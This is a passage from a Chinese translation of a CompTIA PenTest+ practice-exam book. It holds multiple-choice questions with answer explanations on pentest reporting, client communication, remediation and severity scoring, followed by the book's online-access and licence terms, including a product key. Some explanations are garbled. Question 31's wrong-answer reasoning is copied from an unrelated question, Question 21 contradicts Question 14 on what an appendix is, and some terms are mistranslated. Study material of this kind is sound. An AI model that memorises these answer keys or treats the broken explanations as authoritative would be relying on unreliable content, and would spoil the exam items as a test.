**A.** SQL 注入
**B.** 单因素身份验证
**C.** 共享本地管理员凭据
**D.** 不必要的开放服务


**C** 正确。所描述的发现是本地管理员凭据的共享。虽然在系统通过网络无响应或不可用时，保留本地管理员账户具有某些明显的必要性，但部署一种保留该密码的安全机制是最佳实践。缓解此发现的方案包括微软的 `LAPS`——本地管理员密码解决方案，它可以定期随机化本地管理员密码，并通过要求授权用户请求访问密码来保护账户（有效地记录了访问时间和负责的用户），或者通过商业竞品产品，例如 `Centrify` 的 `SAPM`（共享账户密码管理），其工作方式与此类似。

**A**、**B** 和 **D** 都是错误的。**A** 是错误的，因为虽然 SQL 注入可能导致合法服务账户被滥用，但它需要目标系统以 `root` 或管理员用户身份运行 SQL 服务器，导致导致高权限账户的滥用。不能假设 SQL 数据库将以高权限用户身份运行，因此这是错误的。**B** 是错误的，因为虽然单因素身份验证可能导致管理员或其他高权限账户被攻破，但这并不是一个可预测或保证的结果，使得该答案并非优选。**D** 是错误的，因为运行不必要的服务会扩大系统的攻击面。这确实增加了攻击者尝试获取目标系统访问可能途径，但它不能直接导致高权限账户被攻破（或被假设会导致账户被攻破），这意味着在这种情况下对不可否认性也没有造成损害。

### 13

在渗透测试期间与客户联系人通信的一个潜在原因是，确保渗透测试人员的操作是清晰可识别的，并与环境中可能发生的系统账户或其他用户的操作区分来。这个概念被称为什么？

**A.** 冲突消除 (De-confliction)
**B.** 影响缓解 (Impact mitigation)
**C.** 冲突检测 (Collision detection)
**D.** 反编程 (Deprogramming)

**A** 正确。冲突消除是识别渗透测试人员操作的过程，以便清晰地与环境中可能发生的系统账户或其他用户的操作区分开来。在渗透测试的文中，冲突消除用于协助识别执行过程中可能发生的意外行为的根源。

**B**、**C** 和 **D** 都是错误的。这些术语在渗透测试报告程序的上下文中没有特定含义。

### 14

渗透测试报告的哪部分由与报告相关但对于理解其内容并非关重要的补充材料组成？示例包括 `nmap` 扫描结果、自动化扫描输出或其他在渗透测试过程中编写或部署的其他代码。

**A.** 执行摘要 (Executive summary)
**B.** 发现 (Findings)
**C.** 附录 (Appendixes)
**D.** 方法论 (Methodology)

**C** 正确。渗透测试报告的附录由与报告相关但对于理解其内容并非关重要的补充材料组成。示例包括 `nmap` 扫描结果、自动化扫描输出或其他在渗透测试过程中编写或部署的代码。

**A**、**B** 和 **D** 都是错误的。**A** 是错误的，因为执行摘要提供了发现结果的高层级概述。**B** 是错误的，因为发现部分详细说明了特定的漏洞和风险。**D** 是错误的，因为方法论描述了测试期间使用的技术和实践。

### 15

哪种报告后活动侧重于识别从任务中学到的关键教训？

**A.** 汇报/结束会议 (Debriefing/closing meeting)
**B.** 任务后清理 (Post-engagement cleanup)
**C.** 任务调查 (Engagement survey)
**D.** 重测 (Retesting)

**A** 正确。在给出的选项中，汇报/结束会议最合适。它通常以行动后回顾的形式出现，分析任务的整体时间线。这里的目标是识别安全方面的关键教训。

**B**、**C** 和 **D** 都是错误的。**B** 是错误的，因为任务后清理描述的是对测试团队可能留下的工具、利用程序和其他人工品的清理。**C** 是错误的，因为任务调查（通常称为任务前调查）用于渗透测试之前，以确定客户的具体需求。**D** 是错误的，因为重测是根据已识别的修复进行的。

### 16

在渗透测试期间，你确定在测试发现的 Web 应用程序之前需要额外信息，但你的联系人没有响应。以下哪项描述了这种情况下的最佳行动方案？

**A.** 咨询测试规则（rules of engagement）以确定通信路径中的下一个个人
**B.** 联系该组织的一名 Web 开发人员，因为他们负责该 Web 应用程序及其维护
**C.** 联系该组织的一名系统管理员，因为 Web 应用程序运行在他们管理的服务器上
**D.** 直接向组织的首席信息安全官 (CISO) 请求更多信息

**A** 正确。如果联系人没有响应，适当的行动方案总是参考测试规则，以在必要时确定次要的联系点。

**B**、**C** 和 **D** 都是错误的。这些选项规避了预定义的通信路径。如果不遵循先前建立的通信路径，任何向人员直接请求都等同于钓鱼攻击，并会增加客户和渗透测试团队的困惑。

### 17

在编写渗透测试报告时，你反复注意到安全最佳实践往往没有得到执行，并且在组织或网络扩展方面似乎没有总性的设计哲学。以下哪项是针对该场景建议采取的适当缓解策略？


### A. 花费几十万美元购买新的硬件防火墙并让其以默认配置运行

### B. 寻找具有企业级信息安全和网络架构经验的额外人员

### C. 实施日志集中化服务以更好地聚合用户活动数据

### D. 加速技术更新周期，以便使所有组织资产达到基准配置

 **B** 是正确的。在描述的情况下，安全计划的实施和网络架构设计中似乎明显缺乏安全意识。因此，在这种情况下，建议招聘此类人员是最合合宜的。这是一种基于人员的漏洞缓解解决方案的示例。

 **A**、**C**、和 **D** 都是错误的。提到的问题表明对安全和网络架构设计计划缺乏适当的监督，这使得它们成为需要基于人员的解决方案的问题。因此，这些答案是错误的，因为它们没有一个能提供能够妥善应对缺乏监督的人员。在答案 **A** 的情况下，部署硬件防火墙将是漏洞缓解的技术解决方案的示例，实施答案 **C** 中的日志集中化服务也是如此。答案 **D**，即加速技术更新周期——获取新技术——是漏洞缓解的基于技术的解决方案的特定示例。

### 18 . 以下哪些发现的代表的漏洞多年来一直在 OWASP Top 10 列表中位居第一，经常会导致数据被窃取或破坏，甚至导致系统完全崩溃？

### A. 身份验证破解

### B. 注入攻击

### C. 敏感数据泄露

### D. 跨站脚本

 **B** 是正确的。注入攻击多年来一直是 OWASP Top 10 列表中的第一个发现，经常导致数据被窃取或破坏，甚至导致系统完全崩溃。通过查询参数化和用户输入是缓解注入攻击的方法。

 **A**、**C**、和 **D** 都是错误的。虽然所有选项都可能导致目标系统的崩溃，但身份验证破解、敏感数据泄露和跨站脚本 (XSS) 分别是 OWASP Top 10 列表中的第 2、3 和 7 名。

### 19 . 在结束渗透测试时，你翻阅笔记发现，在通过 Web 应用程序获取低权限 Shell 后，你在用户主目录下留了一些利用代码，如下所示：


在这种情况下应采取的适当行动是什么？

### A. 将利用脚本加密在 `.zip` 文件中并将密码提供给组织的联系人以供其稍后审查

### B. 通过运行 `mv getroot.sh .getroot.sh` 将脚本变为“点文件”以将其隐藏

### C. 删除脚本

### D. 将脚本留给该组织安全团队处理

 **C** 是正确的。在描述的情景中，应该删除脚本以防止未经授权的访问。应该删除脚本以防止可能访问系统的攻击者进行潜在利用。

 **A**、**B**、和 **D** 都是错误的。加密脚本不会将其从系统中移除，将其变为“点文件”只是在基础目录列表中隐藏它，这并不是安全措施。将脚本留给安全团队会导致如果攻击者先找到该文件，系统将处于危险之中。

### 20 . 你在渗透测试期间发现了多个漏洞。以下哪些发现最可能值得升级处理？

### A. 发现的公开可用的远程执行漏洞

### B. 公司内网上的 XSS

### C. 用户点击了电子邮件中的恶意链接

### D. 公司 Web 存在目录穿越漏洞，允许未经授权的用户查看目录

 **A** 是正确的。远程执行是一种允许攻击者在服务器上执行任意代码的高风险漏洞，具有升级处理的优先级。

 **B**、**C**、和 **D** 都是错误的。虽然这些漏洞很重要，但在影响方面，它们通常被认为低于远程执行。

### 21 . 渗透测试报告的哪个元素旨在对发现的漏洞及其对受影响系统或网络构成的整体威胁提供标准化的表示？

### A. 方法论

### B. 漏洞严重评分

### C. 附录

### D. 执行摘要

 **B** 是正确的。渗透测试报告中漏洞严重评分模式旨在对发现的漏洞及其对受影响系统或网络构成的整体威胁提供标准化的表示。

 **A**、**C**、和 **D** 都是错误的。**A** 是错误的，渗透测试报告的方法论部分提供了关于所用技术和实践的详细信息，以及在了信息收集、分析和风险评估的决策过程。**C** 是错误的，渗透测试报告的附录由相关的补充材料组成，但对于理解其内容至关重要。**D** 是错误的，渗透测试报告的执行摘要旨在提供发现的高级概述，而不陷入技术细节。

### 22 . 在渗透测试期间与客户联系人通信的一个潜在原因是，如果测试的某个组件导致系统或服务崩溃，导致合法用户和进一步测试都无法使用，则提供解决方案。哪个术语最描述这一概念？

### A. 重测

### B. 冲突检测

### C. 修复

### D. 降级


`D` 是正确的。在渗透测试期间，与客户进行通信以消除可能出现的危机和问题，这被称为“去升级”（de-escalation）。

`A`、`B` 和 `C` 是错误的。这些术语在渗透测试报告流程的语境下没有特定含义。

### 23 .
对于渗透测试中的以下哪项发现，静态加密和传输中加密是最佳推荐的缓解技术？

**A.** 单因素认证
**B.** SQL 注入
**C.** 共享本地管理员凭据
**D.** 以明文形式存储密码

`D` 是正确的。加密（静态加密和传输中加密）是针对以明文形式存储密码的最优推荐缓解策略。以明文形式存储密码会通过简化理论攻击者的横向移动，以及通过破坏不可否认性概念和对特定用户名下操作的责任个人进行验证，从而削弱组织的安全态势。

`A`、`B` 和 `C` 是错误的。`A` 是错误的，因为单因素认证通过降低破解合法用户凭据的难度，削弱了整体安全态势。最佳方案是通过部署多因素认证来缓解。`B` 是错误的，因为 SQL 注入通常会导致数据被取或破坏，甚至导致整个系统被破解。最佳方案是通过查询参数化和用户输入来缓解。`C` 是错误的，因为共享本地管理员凭据会导致实际上无法证明谁在目标系统上执行了更改，从而削弱组织的安全态势。此发现的最佳方案是通过使用随机密码管理解决方案，例如 `LAPS`（本地账户密码解决方案）来缓解。

### 24 .
在获取目标服务器上的一个低权限 Shell 并开始进行权限提升后，你发现非特权端口上运行着一个 `netcat` 进程，正向一个 IP 地址返回 `/bin/bash` 实例，该 IP 既属于你的渗透测试组织也不属于客户使用的任何地址块。在这种情况下，应该采取什么适当行动？

**A.** 对涉 IP 地址进行 OSINT 收集，以开始识别远程端
**B.** 立即停止测试并与客户召开紧急会议
**C.** 截图以便在编写渗透测试报告时作为一项发现
**D.** 一旦你提升到 `root` 就关闭该进程并忽略它，因为它可能是之前渗透测试留下的遗留

`B` 是正确的。识别出一个并非由你发起的运行中的反向 Shell（reverse shell），或发现任何其他目标系统或网络曾被攻破的证据，都是立即停止测试并通知客户的理由。在进行渗透测试时，记住“各司其职”至关重要；识别安全事件的幕后者是一项取证任务，而执行系统取证分析所需的工具和知识与渗透测试中使用的工具有显著区别。

`A`、`C` 和 `D` 是错误的。这些答案未能立即通知客户你发现了他们发生的安全事件。答案 `D` 值得特别强调，因为它积极地破坏了证据。一旦发现之前被攻破的证据，所有测试活动都应停止——*无例外*——并应通知客户。

### 25 .
在编写渗透测试报告时，你注意到客户的安全监控似乎围绕着日志聚合驱动的短信警报。。日志记录的问题似乎维护良好，但你进一步注意到在环境中进行横向移动时没有遇到任何问题，因为你没有遇到任何网络隔离或网络流量控制措施。以下哪些项是缓解这些问题的良好建议？（选择所有适用项）

**A.** 雇用额外人员来处理警报流并提高响应能力
**B.** 部署硬件防火墙以防止网络中的无限制移动
**C.** 实施网络分段
**D.** 为网络管理员创建每日任务列表以确保问题得到及时解决

`B` 和 `C` 是正确的。缺乏网络分段和流量控制指向了测试人员经历的横向移动。部署硬件防火墙和实施网络分段是缓解这些问题的建议。

`A` 和 `D` 是错误的。`A` 是错误的，因为从问题解决的速度来看，组织人员配置似乎恰当，且 `D` 没有直接遏制攻击者将享有的自由。这本属于基于人员或流程的解决方案示例。

### 26 .
以下哪些发现的代表的漏洞在没有业务需求的情况下通过增加攻击面，削弱了组织的安全态势？

**A.** 以明文形式存储密码
**B.** 单因素认证
**C.** 不必要的开放服务
**D.** SQL 注入

`C` 是正确的。不必要的开放服务通过在没有业务需求的情况下增加攻击面，削弱了组织的安全态势；此发现的最佳方案是通过鼓励对目标系统进行加固来缓解。

`A`、`B` 和 `D` 是错误的。`A` 是错误的，因为以明文形式存储密码会通过简化理论攻击者的横向移动，以及通过破坏不可否认性概念和对特定用户名下操作的责任个人进行验证，从而削弱组织的安全态势。`B` 是错误的，因为单因素认证通过降低破解合法用户凭据的难度，削弱了整体安全态势。`D` 是错误的，因为 SQL 注入通常会导致数据被取或破坏，甚至导致整个系统被破解。

### 27 .
强制最小密码要求并防止用户选择常用字典文件中的密码，最能缓解哪种发现？

**A.** 共享本地管理员凭据
**B.** SQL 注入
**C.** 以明文形式存储密码
**D.** 弱密码复杂度

`D` 是正确的。强制最小密码要求并防止用户选择常用字典文件中的密码，将最有效地缓解目标系统或环境中发现的密码复杂度要求不足的问题。


**A** , **B** , 和 **C** 是错误的。**A** 是错误的，因为本地管理员密码共享的风险最佳缓解方式是使用随机化密码管理解决方案，例如 `LAPS`（本地账户密码解决方案）。**B** 是错误的，因为`SQL injection`（SQL 注入）的最佳缓解方式是通过对用户输入和查询进行参数化处理。参数化是预编译要发送到 SQL 服务器的语句或命令的过程，使得所需的用户输入仅为为了正确执行查询而提供的参数（或值）。**C** 是错误的，因为以明文形式存储密码的风险最佳缓解方式是强制对传输中和存储状态下的密码进行加密处理。

### 28 .** 下列文档将详细说明渗透测试组织应保留其提供给客户的报告的时间范围？

**A.** 工作说明书 (Statement of work)
**B.** 主服务协议 (Master service agreement)
**C.** 书面授权信 (Written authorization letter)
**D.** 保密协议 (Nondisclosure agreement)

**A** 是正确的。在提供的选项中，渗透测试团队保留渗透测试报告副本的时间范围将在工作说明书中规定。在某些情况下，它可能会在渗透测试的参与规则（rules of engagement）中详细说明。

**B** , **C** 和 **D** 是错误的。**B** 是错误的，因为主服务协议是两个或多个双方之间的总体合同，规定了治理所有未来交易和协议的条款。**C** 是错误的，因为书面授权信用于在渗透测试团队开始测试之前为其提供法律保护；如果没有它，渗透测试人员将违反禁止未经授权访问计算机系统的法律，例如美国的《计算机欺诈和滥用法》。**D** 是错误的，因为保密协议是参与聘约前的文档，用于确保敏感的企业信息免受未经授权的披露或传播。

### 29 .** 在渗透测试期间与客户联系人沟通的潜在原因是为了确保客户了解进度和所采取的行动，并在开始对客户之前识别为脆弱或易锁的系统进行测试时提醒客户。这种沟通有利于维护以下哪项？

**A.** 冲突消除 (De-confliction)
**B.** 里程碑 (Milestone)
**C.** 降级 (De-escalation)
**D.** 情境意识 (Situational awareness)

**D** 是正确的。这些是情境意识接触的示例，旨在向相关人员实时告知渗透测试团队的操作。这种沟通是有益的且值得的，因为它可以帮助在冲突消除和降级变得必要之前消除对它们的需求。

**A** , **B** 和 **C** 是错误的。**A** 是错误的，因为冲突消除的沟通是为了确保渗透测试人员的行为可以清晰识别并与系统账户的行为区分离开来。**B** 是错误的，因为里程碑的沟通用于在特定间隔报告进度。**C** 是错误的，因为降级用于在发现安全事件时缓解紧张或冲突。

### 30 .** 哪项活动后活动专注于确保目标系统恢复到测试前的状态？

**A.** 汇报 (Debriefing)
**B.** 活动结束后清理 (Post-engagement cleanup)
**C.** 后续重测 (Follow-up retesting)
**D.** 客户验收 (Client acceptance)

**B** 是正确的。描述的活动是活动结束后清理，涉及移除评估期间创建的任何账户、shell 或配置更改。

### 31 .** 哪种发现通过降低破解用户凭据的难度来削弱整体态势？

**A.** 单因素认证 (Single-factor authentication)
**B.** 共享的本地管理员凭据
**C.** 不必要的开放服务 (Unnecessary open services)
**D.** SQL 注入 (SQL injection)

**A 是正确的。单因素认证通过降低破解用户凭据的难度来削弱整体态势。


 `B`、`C` 和 `D` 是错误的。`B` 是错误的，因为冲突消除（de-conflict）是为了确保渗透人员的操作清晰可识别，并与可能发生的其他用户的操作区分离开。`C` 是错误的，因为去升级（de-escalation）是为了消除可能出现的危机和问题。`D` 是错误的，因为周会是渗透测试期间可以进行的一种标准通信类型。

### 为什么应该使用并鼓励多因素认证，而不是单因素方法？（选择所有适用项。）

A. `单因素认证` 降低了访问目标系统的复杂性。
B. `多因素认证` 通常是合规性指南的要求。
C. `多因素认证` 增加了用户摩擦，从而增加了使用弱密码的可能性。
D. `单因素认证` 允许远程用户轻松地执行工作。

 `A` 和 `B` 是正确的。使用 `MFA` 攻击账户的复杂性增加，以及其在满足监管指南方面的价值，使其成为 `单因素认证` 的最佳缓解措施。

 `C` 和 `D` 是错误的。要求 `多因素认证` 带来的摩擦以及访问计算机系统困难性的增加，通常被用作不实施 `MFA` 的理由。

### 对用户输入和查询进行参数化是哪一类漏洞的推荐缓解技术？

A. `弱密码复杂度`
B. `共享的本地管理员凭据`
C. `SQL 注入`
D. `不必要的的服务`

 `C` 是正确的。`SQL 注入` 通过对用户输入和查询进行参数化得到缓解。

 `A`、`B` 和 `D` 是错误的。`A` 是错误的，因为 `弱密码复杂度` 的最佳缓解措施是强制最小密码要求并防止用户从字典文件中选择密码。`B` 是错误的，因为 `共享的本地管理员凭据` 的最佳缓解措施是使用随机密码管理，例如 `LAPS`（本地账户密码解决方案）。`D` 是错误的，因为 `不必要的的服务` 的最佳缓解措施是对目标系统进行加固。

### 以下哪些项代表目标重新排序的示例？（选择所有适用项。）

A. 客户在你在同一子网进行渗透测试时，发送电子邮件请求你同时也扫描刚在客户服务器上安装的新 Web 应用程序。
B. 详细列出之前同意的条款和条件，以触发项目工作说明（SOW）或参与规则（RoE）中目标优先级的转变。
C. 被要求向你的范围中添加新目标，以备新宣布合并及其对组织物流供应链的影响做准备。
D. 客户要求在之前识别的漏洞系统上花费额外精力，而不是在另一个子网上开始测试。

 `B` 和 `D` 是正确的。`B` 是正确的，因为如果已经约定条款并满足了触发条件，就不存在范围蔓延（scope creep）——这只是根据客户和渗透人员双方对渗透测试条款进行的修改。`D` 是正确的，因为它没有改变渗透测试的范围，而是由于硬件故障或其他系统不可用，必要时引导渗透人员的精力转向其他地方。

 `A` 和 `C` 是错误的。`A` 是错误的，它是范围蔓延的示例，即客户明确要求渗透人员进行超出之前约定的活动范围的测试。因此，它不是目标重新排序的示例。`C` 是错误的，虽然在合并前评估组织环境或其供应链组件的渗透测试涉及重大的考量，但这些因素应该在工作的工作说明书（SOW）和参与规则（RoE））中明确说明。因此，这也是范围蔓延的示例，而不是目标重新排序。

### 哪种类型的发现由于用户密码更容易受到破解或在线暴力破解尝试而削弱了安全态势？

A. `弱密码复杂度要求`
B. `SQL 注入`
C. `不必要的的服务`
D. `共享的本地管理员凭据`

 `A` 是正确的。`弱密码复杂度要求`通过使用户密码更容易受到破解或在线暴力破解尝试而削弱安全态势。

 `B`、`C` 和 `D` 是错误的。`B` 是错误的，因为 `SQL 注入` 不利用对身份验证协议的攻击，也不让密码容易被破解或暴力破解。`C` 是错误的，虽然 `不必要的的服务` 通过增加可行的攻击面削弱了组织的安全态势，但身份验证门户的暴露并不意味着用户密码是弱的且易于破解的。`D` 是错误的，因为 `共享的本地管理员凭据` 由于跨网络访问管理账户的简化而削弱了组织的安全态势；这滥用了一种身份验证范式，但共享管理员密码并不意味着该密码必须容易被破解或暴力破解。

通过使用 `LAPS` 或类似的 `SAPM` 等商业产品对账户凭据进行随机化是哪类发现的最佳缓解策略？

A. `SQL 注入`
B. `共享的本地管理员凭据`
C. `以明文存储的密码`
D. `单因素认证`

 `B` 是正确的。`共享的本地管理员凭据` 的最佳缓解措施是通过使用 `LAPS`（本地管理员密码解决方案）或类似的商业产品如 `SAPM`（共享账户密码管理）。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为利用 `SQL 注入` 并不一定需要身份验证，使得账户凭据随机化是一种无效的缓解措施。`C` 是错误的，因为它可能有助于防止外部代理获取明文存储的密码，但对于内部威胁或具有足够访问权限和好奇心查看密码存储文件的系统用户来说，这并不是有效的缓解措施。`D` 是错误的，因为账户密码随机化仍然使系统只有一个身份验证因素，使其无法缓解单因素认证带来的威胁。

### 系统加固是减少可用攻击面的过程，旨在缓解以下哪种发现？

A. `明文密码`
B. `不必要的的服务`
C. `单因素认证`
D. `弱密码复杂度要求`


 `B` 是正确的。系统加固通过减少可用的攻击面，来缓解系统中存在不必要的开放服务所带来的固有风险。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为虽然系统加固减少了外部代理访问明文存储的密码的可能性，但它无法缓解由内部威胁攻击者或好奇的、合法授权的用户所构成的潜在风险。`C` 是错误的，因为虽然系统加固可以减少暴露在系统之上的身份验证门户数量，但单因素认证的潜在威胁仍然存在，因为它没有增加攻击面，因此不会通过系统加固得到缓解。`D` 是错误的，因为系统加固仅减少暴露的攻击面——如果在加固过程后暴露的身份验证门户仍然有较弱的密码复杂度要求，那么在获取密码哈希值的情况下，这些门户仍然极易受到暴力破解或密码破解的攻击，因为攻击面的减少对剩余身份验证门户的任何弱密码都不会产生影响。

### 39. 在编写渗透测试报告时，关于漏洞严重程度评分标准，以下哪个是最佳选择？

* **A.** 根据从攻击者角度来看的用性给出简单的低、中、高评分
* **B.** 根据问题漏洞提供的威胁，从一到十个表情符号弹进行评分
* **C.** 一种既定的风险评估模型，如 `DREAD`
* **D.** 一种尝试根据对机密性、完整性和可用性关键要素的影响，以规范和标准化的方式呈现威胁的工具，例如 `CVSS`

 `D` 是正确的。漏洞的严重性在某种程度上总是是主观的，但确实有一些评分系统试图标准化漏洞的性质及其整体严重性。例如，`CVSS` 是流行的系统之一。通过归一化漏洞各个独立组件的描述，并提供易于理解的 1 到 10 评分，`CVSS` 使得更容易向客户提供有意义的数据，并让他们能够更好地指导其风险评估和修复工作。

 `A`、`B` 和 `C` 是错误的。`A` 和 `B` 是错误的，因为在从低到高或 1 到 10 的有效范围内上进行简单的严重性评分缺乏足够的信息，无法充分告知客户并使他们能够在其风险评估过程中对漏洞做出明智的评估。`C` 是错误的，因为 `DREAD`（以及类似模型）是用于帮助推动业务决策的风险评估工具，而不是用于衡量发现漏洞严重程度的工具。

### 40. 收集发现漏洞的截图是提供或促进以下哪项最简单的方法之一？

* **A.** 从参与中学习的教训
* **B.** 渗透测试数据的归一化
* **C.** 对发现的积极佐证
* **D.** 客户对发现的接受

 `C` 是正确的。截图提供了证据，可以极大地简化对渗透测试过程中发现的发现提供佐证的问题。提供一份证明已发现结果的誓书或其他文件是一回事，但硬证据总是胜过雄言。

 `A`、`B` 和 `D` 是错误的。`A` 是错误的，因为教训将由渗透测试团队和客户组织在审查渗透测试报告时决定。`B` 是错误的，因为数据的归一化是为了提高提供给客户报告的可读性和整体实用性，这不受收集截图的直接影响。`D` 是错误的，因为客户对发现的接受是由参与的条款决定的，而不是基于渗透测试过程中收集的截图。

### 41. 如果客户对接受渗透测试报告有疑问，以下哪项文档可以查阅？

* **A.** 授权信
* **B.** 非保密协议
* **C.** 参与规则
* **D.** 工作说明

 `D` 是正确的。渗透测试报告的接受条款列在工作说明中。

 `A`、`B` 和 `C` 是错误的，因为这些答案都无法提供确定是否满足渗透测试报告接受条款的信息。

### 42. 哪些发现通过简化理论攻击者的横向移动以及破坏对特定用户名操作行为的不可否认性，降低了组织的安全态势？（选择两个）

* **A.** 共享本地管理员凭据
* **B.** 单因素认证
* **C.** 以明文存储的密码
* **D.** SQL 注入

 `A` 和 `C` 是正确的。共享管理员凭据的使用和明文存储密码使得横向移动变得更容易，掩盖了他们的活动，并导致对特定用户名操作的行为产生争议。这些发现分别通过本地账户密码随机化以及在存储和传输时对密码进行加密得到缓解。

 `B` 和 `D` 是错误的。`B` 是错误的，因为单因素认证通过降低破解合法用户凭据的难度削弱了整体安全态。`D` 是错误的，因为 SQL 注入通常会导致数据的丢失或破坏，甚至导致整个系统崩溃。

## 附录

## 关于在线内容

本书附带 TotalTester Online 可定制练习考试软件，包含 200 道单选题练习题和 10 道模拟性能题。

### 系统要求

推荐并支持以下桌面浏览器的当前和之前的主要版本：Chrome、Microsoft Edge、Firefox 和 Safari。这些浏览器更新频繁，有时更新会导致 TotalTester Online 或托管在 Training Hub 上的内容出现兼容性问题。在使用这些浏览器时遇到问题，请尝试使用其他浏览器。

### 您的 Total Seminars Training Hub 账户

访问在线内容您需要在 Total Seminars Training Hub 上创建一个帐户。注册是免费的，您可以使用账户跟踪所有的在线内容。如果您希望收到来自 McGraw-Hill Education 或 Total Seminars 的营销信息，也可以选择，但这对于您访问在线内容并非必须。

### 隐私声明


McGraw-Hill Education 重视您的隐私。请务必在注册期间阅读提供的《隐私声明》，以了解您提供的信息将如何被使用。您可以通过访问 McGraw-Hill Education 隐私中心查看我们的企业客户隐私政策。访问 `[mheducation.com](http://mheducation.com)` 网站并点击页面底部的 `Privacy`。

## 单用户许可条款与条件

对书中包含的数字内容的在线访问受下述 McGraw-Hill Education 许可协议的约束。使用此类数字内容即表示您同意该许可的条款。

**访问** 要注册并激活您的 Total Seminars Training Hub 账户，只需按照以下简单步骤操作。

**1.** 前往 `[hub.totalsem.com/mheclaim](http://hub.totalsem.com/mheclaim)`。

**2.** 注册并创建新的 Training Hub 账户请输入您的电子邮件地址、姓名和密码。创建账户不需要额外的个人信息（如信用卡号）。

***


**注意** 如果您已经有了 Total Seminars Training Hub 账户，请选择 `Log in` 并输入您的电子邮件和密码。否则，请按照剩余步骤操作。

**3.** 输入您的产品密钥：`x37c-s2m7-cpwn`

**4.** 点击接受用户许可条款。

**5.** 点击 `Register and Claim` 创建您的账户。您将被带到 Training Hub 并获得此书的内容。

**许可有效期** 通过 Total Seminars Training Hub 访问在线内容的权限将在出版社宣布该书停版之日起一年后过期。

通过零售店购买的此 McGraw-Hill Education 产品（包括其激活码）受该商店退货政策的限制。

内容为 McGraw-Hill Education 的版权作品，McGraw-Hill Education 保留对该内容的所有权利。本作品版权 ©2019 McGraw-Hill Education, LLC 所有。

**转让限制** 用户仅获得出于其自身内部和个人目的使用该内容的有限权利，该权利取决于对此书的购买和持续拥有。未经 McGraw-Hill Education 同意，用户不得复制、转发、修改、基于此创建衍生作品、传输、分发、传播、销售、出版或分许可内容，或以任何方式将内容与其他第三方内容混合。

**有限保证** McGraw-Hill Education 内容按“现状”提供。McGraw-Hill Education 及其许可方均不提供任何形式的（无论是明示还是暗示）保证或保证，包括但不限于对任何 McGraw-Hill Education 内容或其中信息的适销性或特定用途的适用性的暗示性保证，或对访问或使用 McGraw-Hill Education 内容所获得的准确性、完整性、正确性或结果的保证，或对此类内容中引用的、用户或其他人员输入被许可方产品的信息、或被许可方产品可用或可访问（包括通过任何链接或其他方式）的材料，或未侵犯第三方权利的保证。任何形式的保证（无论是明示还是暗示）均被放弃。通过 `Total Seminars Training Hub` 获取或通过被许可方产品访问（包括通过任何链接或其他方式）的任何材料或数据，或关于未侵犯第三方权利的，任何形式的保证（无论是明示还是暗示）均被放弃。

## TotalTester Online

`TotalTester Online` 提供考试模拟。`Practice Mode` 为您提供提示，`Exam Mode` 提供实际考试的模拟。

导航至 `Resources` 标签页或选择 `CompTIA PenTest+ (PT0-001) Practice Exams Book TotalTester` 并选择 `TotalTester`，即可访问书中包含的十个性能测试题。点击图标在浏览器中启动交互式测验。

要参加测试，请按照 `CompTIA PenTest+ (PT0-001) Practice Exams Book TotalTester` 提供的说明注册并激活您的账户。从 Training Hub 页面选择。

## 预评估测试

除了考试题外，`TotalTester` 还包含 `PenTest+ pre-assessment`，帮助您在阅读书籍之前对理解理解。要在 `CompTIA PenTest+ (PT0-001) Practice Exams Book TotalTester` 内启动预评估测试，请选择 `Pre-Assessment TotalTester` 然后点击图标加载预评估测试器。`PenTest+ pre-assessment test` 有 25 个问题并在 `Exam mode` 下运行。完成题目后，选择 `Grade Test` 为考试评分并按领域查看结果。此外，您可以通过启用 `I would like to review my test` 来查看带有答案和详细说明的题目。

## 性能题

除了多选题，`PenTest+` 考试还包括性能测试题 (`PBQs`)，根据 CompTIA 的说明，这些题目旨在测试您在模拟环境中解决问题的能力。有关 `PBQs` 的更多信息可在 CompTIA 网站上找到。您可以通过 `Resources` 标签页或选择 `Performance-Based Questions Quiz` 访问书中包含的十个性能测试题。

`CompTIA PenTest+ (PT0-001) Practice Exams Book TotalTester`

## 技术支持

关于 `TotalTester` 软件或 `Training Hub` 操作的问题，请访问 `[www.totalsem.com](http://www.totalsem.com)` 或发送至 `support@totalsem.com`。

关于书籍内容的问题，请邮件 `hep_customer-service@mheducation.com`。对于在美国以外的客户，请邮件 `international_cs@mheducation.com`。

